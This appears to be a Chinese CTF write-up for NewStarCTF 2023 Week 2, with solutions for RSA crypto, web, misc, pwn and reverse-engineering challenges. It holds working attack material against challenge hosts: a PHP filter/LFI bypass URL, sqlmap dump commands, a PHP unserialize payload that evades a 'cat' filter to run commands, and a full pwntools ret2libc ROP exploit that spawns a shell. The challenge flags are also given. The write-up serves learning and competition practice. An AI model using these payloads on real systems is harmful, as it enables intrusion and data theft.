


# NewStarCTF 2023 公开赛道 Week2
# Crypto
# 滴啤
考点：dp 泄露
题目如下：
from Crypto.Util.number import * | |
import gmpy2 | |
from flag import flag | |
def gen_prime(number): | |
p = getPrime(number//2) | |
q = getPrime(number//2) | |
return p,q | |
m = bytes_to_long(flag.encode()) | |
p,q = gen_prime(1024) | |
print(p*q) | |
e = 65537 | |
d = gmpy2.invert(e,(p-1)*(q-1)) | |
print(d%(p-1)) | |
print(pow(m,e,p*q)) | |
# 93172788492926438327710592564562854206438712390394636149385608321800134934361353794206624031396988124455847768883785503795521389178814791213054124361007887496351504099772757164211666778414800698976335767027868761735533195880182982358937211282541379697714874313863354097646233575265223978310932841461535936931 | |
# 307467153394842898333761625034462907680907310539113349710634557900919735848784017007186630645110812431448648273172817619775466967145608769260573615221635 | |
# 52777705692327501332528487168340175436832109866218597778822262268417075157567880409483079452903528883040715097136293765188858187142103081639134055997552543213589467751037524482578093572244313928030341356359989531451789166815462417484822009937089058352982739611755717666799278271494933382716633553199739292089 |
现在已知：n、dp (d mod (p-1))、c、e
一般的 RSA 题目不会给出 dp，因此本题属于 dp 泄露，利用 dp 求出其余元素，进而得到最终的答案：
from Crypto.Util.number import * | |
import gmpy2 | |
# from flag import flag | |
def gen_prime(number): | |
p = getPrime(number//2) | |
q = getPrime(number//2) | |
return p,q | |
def getd(n,e,dp): | |
for i in range(1,e): | |
if (dp*e-1)%i == 0: | |
p = (dp*e-1)//i + 1 | |
if n % p ==0: | |
q = n //p | |
phi=(p-1)*(q-1) | |
d = gmpy2.invert(e,phi) | |
return d | |
n = 93172788492926438327710592564562854206438712390394636149385608321800134934361353794206624031396988124455847768883785503795521389178814791213054124361007887496351504099772757164211666778414800698976335767027868761735533195880182982358937211282541379697714874313863354097646233575265223978310932841461535936931 | |
dp = 307467153394842898333761625034462907680907310539113349710634557900919735848784017007186630645110812431448648273172817619775466967145608769260573615221635 | |
e = 65537 | |
c = 52777705692327501332528487168340175436832109866218597778822262268417075157567880409483079452903528883040715097136293765188858187142103081639134055997552543213589467751037524482578093572244313928030341356359989531451789166815462417484822009937089058352982739611755717666799278271494933382716633553199739292089 | |
d = getd(n,e,dp) | |
m = pow(c,d,n) | |
print(long_to_bytes(m)) |
flag 为： flag{cd5ff82d-989c-4fbf-9543-3f98ab567546}
# 不止一个 pi
题目：
from flag import flag | |
from Crypto.Util.number import * | |
import gmpy2 | |
p = getPrime(1024) | |
q = getPrime(1024) | |
n = p**3*q**2 | |
print("q = ",q) | |
print("p = ",p) | |
m = bytes_to_long(flag.encode()) | |
c = pow(m,65537,n) | |
print("c = ",c) | |
# q = 115478867870347527660680329271012852043845868401928361076102779938370270670897498759391844282137149013845956612257534640259997979275610235395706473965973203544920469416283181677660262509481282536465796731401967694683575843183509430017972506752901270887444490905891490955975762524187534052478173966117471143713 | |
# p = 171790960371317244087615913047696670778115765201883835525456016207966048658582417842936925149582378305610304505530997833147251832289276125084339614808085356814202236463900384335878760177630501950384919794386619363394169016560485152083893183420911295712446925318391793822371390439655160077212739260871923935217 | |
# c = 4459183928324369762397671605317600157512712503694330767938490496225669985050002776253470841193156951087663107866714426230222002399666306287642591077990897883174134404896800482234781531592939043551832049756571987010173667074168282355520711905659013076509353523088583347373358980842707686611157050425584598825151399870268083867269912139634929397957514376826145870752116583185351576051776627208882377413433140577461314504762388617595282085102271510792305560608934353515552201553674287954987323321512852114353266359364282603487098916608302944694600227628787791876600901537888110093703612414836676571562487005330299996908873589228072982641114844761980143047920770114535924959765518365614709272297666231481655857243004072049094078525569460293381479558148506346966064906164209362147313371962567040047084516510135054571080612077333228195608109065475260832580192321853906138811139036658485688320161530131239854003996457871663456850196483520239675981391047452381998620386899101820782421605287708727667663038905378115235163773867508258208867367314108701855709002634592329976912239956212490788262396106230191754680813790425433763427315230330459349320412354189010684525105318610102936715203529222491642807382215023468936755584632849348996666528981269240867612068382243822300418856599418223875522408986596925018975565057696218423036459144392625166761522424721268971676010427096379610266649911939139451989246194525553533699831110568146220347603627745407449761792135898110139743498767543521297525802809254842518002190381508964357001211353997061417710783337 | |
# e = 65537 |
本题目如果直接使用 c,d,n 进行求解的话无法给出正确答案 (原因？)。可以用中国剩余定理进行求解，但是不清楚为什么虽然 n 是由多个素数：p，p，p，q，q 组成的，但是只用了 p 和 q 进行了一次中国剩余定理就得到了正确答案，可能因为本质上只是有两个元素 p，q？？：
# from flag import flag | |
from Crypto.Util.number import * | |
import gmpy2 | |
q = 115478867870347527660680329271012852043845868401928361076102779938370270670897498759391844282137149013845956612257534640259997979275610235395706473965973203544920469416283181677660262509481282536465796731401967694683575843183509430017972506752901270887444490905891490955975762524187534052478173966117471143713 | |
p = 171790960371317244087615913047696670778115765201883835525456016207966048658582417842936925149582378305610304505530997833147251832289276125084339614808085356814202236463900384335878760177630501950384919794386619363394169016560485152083893183420911295712446925318391793822371390439655160077212739260871923935217 | |
n = p**3*q**2 | |
e = 65537 | |
phi = (p-1)**3*(q-1)**2 | |
d = gmpy2.invert(e,phi) | |
c = 4459183928324369762397671605317600157512712503694330767938490496225669985050002776253470841193156951087663107866714426230222002399666306287642591077990897883174134404896800482234781531592939043551832049756571987010173667074168282355520711905659013076509353523088583347373358980842707686611157050425584598825151399870268083867269912139634929397957514376826145870752116583185351576051776627208882377413433140577461314504762388617595282085102271510792305560608934353515552201553674287954987323321512852114353266359364282603487098916608302944694600227628787791876600901537888110093703612414836676571562487005330299996908873589228072982641114844761980143047920770114535924959765518365614709272297666231481655857243004072049094078525569460293381479558148506346966064906164209362147313371962567040047084516510135054571080612077333228195608109065475260832580192321853906138811139036658485688320161530131239854003996457871663456850196483520239675981391047452381998620386899101820782421605287708727667663038905378115235163773867508258208867367314108701855709002634592329976912239956212490788262396106230191754680813790425433763427315230330459349320412354189010684525105318610102936715203529222491642807382215023468936755584632849348996666528981269240867612068382243822300418856599418223875522408986596925018975565057696218423036459144392625166761522424721268971676010427096379610266649911939139451989246194525553533699831110568146220347603627745407449761792135898110139743498767543521297525802809254842518002190381508964357001211353997061417710783337 | |
print("q = ",q) | |
print("p = ",p) | |
dp = d % (p-1) | |
dq = d % (q-1) | |
Cp = c % p | |
Cq = c % q | |
qInv = gmpy2.invert(q,p) | |
mp = pow(Cp,dp,p) | |
mq = pow(Cq,dq,q) | |
h = (qInv*((mp-mq)%p))%p | |
m12 = mq + h*q | |
print(long_to_bytes(m12)) | |
# c = 4459183928324369762397671605317600157512712503694330767938490496225669985050002776253470841193156951087663107866714426230222002399666306287642591077990897883174134404896800482234781531592939043551832049756571987010173667074168282355520711905659013076509353523088583347373358980842707686611157050425584598825151399870268083867269912139634929397957514376826145870752116583185351576051776627208882377413433140577461314504762388617595282085102271510792305560608934353515552201553674287954987323321512852114353266359364282603487098916608302944694600227628787791876600901537888110093703612414836676571562487005330299996908873589228072982641114844761980143047920770114535924959765518365614709272297666231481655857243004072049094078525569460293381479558148506346966064906164209362147313371962567040047084516510135054571080612077333228195608109065475260832580192321853906138811139036658485688320161530131239854003996457871663456850196483520239675981391047452381998620386899101820782421605287708727667663038905378115235163773867508258208867367314108701855709002634592329976912239956212490788262396106230191754680813790425433763427315230330459349320412354189010684525105318610102936715203529222491642807382215023468936755584632849348996666528981269240867612068382243822300418856599418223875522408986596925018975565057696218423036459144392625166761522424721268971676010427096379610266649911939139451989246194525553533699831110568146220347603627745407449761792135898110139743498767543521297525802809254842518002190381508964357001211353997061417710783337 | |
# e = 65537 |
flag{bu_zhi_yige_p1dsaf}
# Web
# 游戏高手
直接修改当前游戏的 gameScore 值，即可获得 flag
flag{d37b9e39-db1d-44c0-9857-a13e2d050ff6}
# include 0。0
包含也有危害？
题目：
<?php | |
highlight_file(__FILE__); | |
// FLAG in the flag.php | |
$file = $_GET['file']; | |
if(isset($file) && !preg_match('/base|rot/i',$file)){ | |
@include($file); | |
}else{ | |
die("nope"); | |
} | |
?> |
用 filter 获得相关参数：
http://8f160d03-3828-4fc4-86db-8799b5445d6f.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=flag.php
但是这样会被检测到 base，使用 hackbar 的 Encoding 功能，将 base64 字段编译两次：
http://8f160d03-3828-4fc4-86db-8799b5445d6f.node4.buuoj.cn:81/?file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34-encode/resource=flag.php
在传入就可以获得 flag 的 base64 格式，解码后得到答案：
PD9waHAgLy9mbGFne2FkNTgyMGFmLTI3NGYtNDdlNC04NTE1LTY4ZjBmYWI3ZjAyOH0K

flag{ad5820af-274f-47e4-8515-68f0fab7f028}
# ez_sql
题目如下：
直接用 sqlmap 开查，先查看有什么 table：
sqlmap -u http://289cffc1-b11a-4434-9d3a-0712195f3120.node4.buuoj.cn:81/?id=TMP0919 --dbs
其中我们的 flag 在 ctf 表中：
sqlmap -u http://289cffc1-b11a-4434-9d3a-0712195f3120.node4.buuoj.cn:81/?id=TMP0919 -D ctf --tables
得到 flag：
sqlmap -u http://289cffc1-b11a-4434-9d3a-0712195f3120.node4.buuoj.cn:81/?id=TMP0919 -D ctf -T here_is_flag --dump
# Unserialize？
什么是 PHP 反序列化？
本题考查 PHP 反序列化，题目如下：
<?php | |
highlight_file(__FILE__); | |
// Maybe you need learn some knowledge about deserialize? | |
class evil { | |
private $cmd; | |
public function __destruct() | |
{ | |
if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){ | |
@system($this->cmd); | |
} | |
} | |
} | |
@unserialize($_POST['unser']); | |
?> |
先构造查看根目录的反序列化 php：
<?php | |
class evil { | |
private $cmd = "ls la /"; | |
public function __destruct() | |
{ | |
if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){ | |
@system($this->cmd); | |
} | |
} | |
} | |
$a = new evil; | |
echo urlencode(serialize($a)); | |
?> |
结果如下所示：
发现我们想要的 flag，再构造反序列化，由于 cat 被过滤了，直接使用 cat 会在构造后的语句中含有 cat，所以使用 c''at 重新构造，获得该 flag：
<?php | |
class evil { | |
private $cmd = "c''at /th1s_1s_fffflllll4444aaaggggg"; | |
public function __destruct() | |
{ | |
if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){ | |
@system($this->cmd); | |
} | |
} | |
} | |
$a = new evil; | |
echo urlencode(serialize($a)); | |
?> |
flag{7626fe20-384c-4362-acd8-3f74fdf9b6e9}
# MISC
# 新建 Word 文档
打开题目，其中包含一个 word 文档，打开之后发现一片空白，这时候，我们找到 word 选项，显示这里，将隐藏文字打开，就可以看到一堆不明所以的话：
新佛曰：毘諸隸僧降吽諸陀摩隸僧缽薩願毘耨咤陀願羅咤喃修願宣亦宣寂叻寂阿是吽阿塞尊劫毘般毘所聞降毘咒塞尊薩咒毘所若降般斯毘嚴毘嚴波斯迦毘色毘波嚴毘喃念若修嘚般毘我毘如毘如囑囑
查了一下，是一种密码，打开在线网站揭秘如下：
flag{Th1s_F0_1s_s00_Cyp3r_495586e3df3a}
# 永不消逝的电波
题目是一段音频，停了一下，感觉是摩尔斯电码，手动打出来如下：
..-. .-.. .- --. - .... . -... . ... - -.-. - ..-. . .-. .. ... -.-- --- ..-
再用翻译器翻一下：
FLAGTHEBESTCTFERISYOU
flag{thebestctferisyou}
# PWN
# ret2libc
首先查看安全检查：
使用 IDA 查看代码：

发现有栈溢出，但是没有任何的漏洞函数，但是有 libc 函数，和 puts 函数，说明该题是需要我们自己利用 libc 中的 system 函数进行渗透。在 linux 延迟绑定机制中，当程序调用库函数时，会将 libc.so 文件中的函数地址写到程序的 got 表中，调用时会跳转到 got 表所写的地址。那么我们如果要调用 system 函数，就要知道他的 got 表中的地址，got 表中的地址指的就是当系统将 libc（动态链接库）加载到内存中时，库中的函数的地址。但 libc 被加载到的内存的位置是随机的，我们无从得知。但是，同一版本的 libc 的两个库函数在 libc 中的相对位置是不变的，所以如果我们可以知道一个已经执行过的函数的 got 表地址，然后确定 libc 的版本，就可以加上和 system 函数的偏移，从而得到 system 函数的真实地址，即 got 表地址。碰巧的是，我们拥有一个 puts 函数，我们可以用 puts 函数，将一个已经执行过的函数的 got 表地址打印出来，然后再根据地址获取 libc 版本，确定偏移，得到真实地址；并且，在 libc 中，存在着 system 函数和 /bin/sh 字符串，所以我们只需要考虑如何得到一个执行过的函数的真实地址即可，并不需要考虑如何写入 /bin/sh 字符串。本题可以利用 puts 函数打印自身的 got 表。

64 位程序的参数从左到右依次放入寄存器: rdi, rsi, rdx, rcx, r8, r9 中。我们使用的 puts 函数只需要传入一个参数，所以只需要一个寄存器 rdi 即可。通过 ROPgadge 查找我们能够利用的语句地址：

我们采用 0x400763 的语句，先在本地进行尝试：
from pwn import * | |
# context.terminal = ['tmux','splitw','-h'] #需要装分屏工具 | |
sh = process('ret2libc') | |
context(log_level = 'debug') | |
elf = ELF('ret2libc') | |
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') | |
puts_plt = elf.plt['puts'] | |
puts_got = elf.got['puts'] | |
start_address = elf.symbols['main'] | |
rdi_address = 0x400763 | |
payload = b'a'*32 + p64(0) + p64(rdi_address) + p64(puts_got) + p64(puts_plt) + p64(start_address) | |
sh.sendlineafter("Show me your magic again",payload) | |
puts_address = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) | |
print("[*]leak puts addr: " + hex(puts_address)) |
可以成功得到 puts 本地的地址：
leak puts addr: 0x?????????
再添加如下语句得到本地 libc 库中的 system 和 /bin/sh 的地址：
base_address = puts_address - libc.symbols["puts"] | |
system_address = base_address + libc.symbols["system"] | |
binsh_address = base_address + next(libc.search(b'/bin/sh')) |
最后通过如下代码进行构建获取 shell，这里如果不添加 ret_addr 的话就会导致栈不对齐，程序会直接终止运行，加入一个无关紧要的返回语句进行对齐：
ret_addr = 0x400506 | |
payload2 = b'a'*32 + p64(0) +p64(ret_addr) + p64(rdi_address) + p64(binsh_address) + p64(system_address) | |
sh.sendafter("Show me your magic again",payload2) | |
sh.interactive() |
这个时候我们已经可以在本地成功的获取到 shell 了，现在进行靶机的攻入：
from pwn import * | |
# context.terminal = ['tmux','splitw','-h'] #需要装分屏工具 | |
sh = remote('node4.buuoj.cn',28845) | |
# sh = process('ret2libc') | |
context(log_level = 'debug') | |
elf = ELF('ret2libc') | |
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') | |
puts_plt = elf.plt['puts'] | |
puts_got = elf.got['puts'] | |
start_address = elf.symbols['main'] | |
rdi_address = 0x400763 | |
payload = b'a'*32 + p64(0) + p64(rdi_address) + p64(puts_got) + p64(puts_plt) + p64(start_address) | |
sh.sendlineafter("Show me your magic again",payload) | |
puts_address = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) | |
print("[*]leak puts addr: " + hex(puts_address)) |
第一次进行传入可以查看到靶机的 libc.puts 函数的真实地址：
leak puts addr: 0x7f4254048970
利用其地址的最后三位 970 在网站上查询远程所使用的 libc 库版本：
可以发现找到了四个符合的 libc 版本，其中每个函数的 offset 已经标出，在程序中进行替换即可。经过多次测试，发现第三个库版本是我们需要的库版本。
base_address = puts_address - 0x080970 | |
system_address = base_address + 0x04f420 | |
binsh_address = base_address + 0x1b3d88 | |
ret_addr = 0x400506 | |
payload2 = b'a'*32 + p64(0) +p64(ret_addr) + p64(rdi_address) + p64(binsh_address) + p64(system_address) | |
sh.sendafter("Show me your magic again",payload2) | |
# sh.sendline(payload2) | |
sh.interactive() |
最终的运行结果如下所示：
flag{f5d55c23-cdfd-4170-9cb8-db66ac3ed237}
# RE
# PZthon
使用 DIE 进行扫描可以发现，该文件没有加壳，但是该程序是使用 PyInstaller 进行打包的，于是我们需要使用 python 的解包工具。
我们使用以下代码下载一个 exe 解包工具，在同一目录下使用。
git clone https://github.com/extremecoders-re/pyinstxtractor.git |
python .\pyinstxtractor.py .\PZthon.exe
magic number 是在 pyc 文件开头的一段表示 python 版本的数，解包出来的 pyc 文件很可能会 magic number 缺失，需要手动补全。解包完成后，我们需要保证 magic number 的一致，比较 PZthon.pyc 和 struct.pyc 的前几位，发现没有 magic number，不需要补充。
接下来下载如下工具，进行反编译为 py：
https://github.com/cw2k/pycdc_withExe/releases/tag/1%2C0
使用如下代码，将 PZthon 代码反编译为 py
.\pycdc.exe .\PZthon.pyc > .\PZthon.py |
打开 PZthon.py，得到如下内容：
# Source Generated with Decompyle++ | |
# File: PZthon.pyc (Python 3.9) | |
def hello(): | |
art = '\n ___ \n // ) ) / / // ) ) // | | / / // | | \\ / / \\ / / \n //___/ / / / // //__| | / / //__| | \\ / \\ / / \n / ____ / / / // ____ / ___ | / / / ___ | / / \\/ / \n // / / // / / // | | / / // | | / /\\ / / \n// / /___ ((____/ / // | | / /____/ / // | | / / \\ / / \n \n / / // / / || / / // / / / / /__ ___/ || / | / / // ) ) \n / / //____ || / / //____ / / / / || / | / / // / / \n / / / ____ || / / / ____ / / / / || / /||/ / // / / \n / / // ||/ / // / / / / ||/ / | / // / / \n / /____/ / //____/ / | / //____/ / / /____/ / / / | / | / ((___/ / \n' | |
print(art) | |
return bytearray(input('Please give me the flag: ').encode()) | |
enc = [ | |
115, | |
121, | |
116, | |
114, | |
110, | |
76, | |
37, | |
96, | |
88, | |
116, | |
113, | |
112, | |
36, | |
97, | |
65, | |
125, | |
103, | |
37, | |
96, | |
114, | |
125, | |
65, | |
39, | |
112, | |
70, | |
112, | |
118, | |
37, | |
123, | |
113, | |
69, | |
79, | |
82, | |
84, | |
89, | |
84, | |
77, | |
76, | |
36, | |
112, | |
99, | |
112, | |
36, | |
65, | |
39, | |
116, | |
97, | |
36, | |
102, | |
86, | |
37, | |
37, | |
36, | |
104] | |
data = hello() | |
for i in range(len(data)): | |
data[i] = data[i] ^ 21 | |
if bytearray(enc) == data: | |
print('WOW!!') | |
else: | |
print('I believe you can do it!') | |
input('To be continue...') |
可以发现，flag 就是将每个字符和 21 进行了异或操作，我们只需要每个字符再和 21 进行一次异或操作就可以获得 flag 的 ASCII 值，再转换为 ASCII 码即可得到正确的 flag。
enc = [ | |
115, | |
121, | |
116, | |
114, | |
110, | |
76, | |
37, | |
96, | |
88, | |
116, | |
113, | |
112, | |
36, | |
97, | |
65, | |
125, | |
103, | |
37, | |
96, | |
114, | |
125, | |
65, | |
39, | |
112, | |
70, | |
112, | |
118, | |
37, | |
123, | |
113, | |
69, | |
79, | |
82, | |
84, | |
89, | |
84, | |
77, | |
76, | |
36, | |
112, | |
99, | |
112, | |
36, | |
65, | |
39, | |
116, | |
97, | |
36, | |
102, | |
86, | |
37, | |
37, | |
36, | |
104] | |
for i in range(len(enc)): | |
enc[i] = enc[i] ^ 21 | |
ascii_string = ''.join(chr(num) for num in enc) | |
print(ascii_string) |
flag{Y0uMade1tThr0ughT2eSec0ndPZGALAXY1eve1T2at1sC001}